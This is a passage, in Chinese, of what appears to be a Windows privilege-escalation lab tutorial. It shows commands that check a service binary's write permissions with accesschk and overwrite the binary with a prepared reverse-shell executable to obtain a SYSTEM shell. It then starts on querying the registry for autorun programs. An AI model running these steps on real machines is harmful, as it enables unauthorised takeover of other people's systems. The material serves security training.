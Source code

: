 ![image-20200712120423939](assets/8.提权.assets/image-20200712120423939.png)

使用accesschk.exe，检查源文件，请注意每个人都可以写入服务二进制文件（BINARY_PATH_NAME）：

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![image-20200712120330675](assets/8.提权.assets/image-20200712120330675.png)

复制您创建的reverse.exe可执行文件，并用它替换filepermservice.exe：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start filepermsvc
```

###### 利用自启动程序

在注册表中查询“自动运行”可执行文件：

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

![image-20200712120713361](assets/8.提权.assets/image-20200712120713361.png)
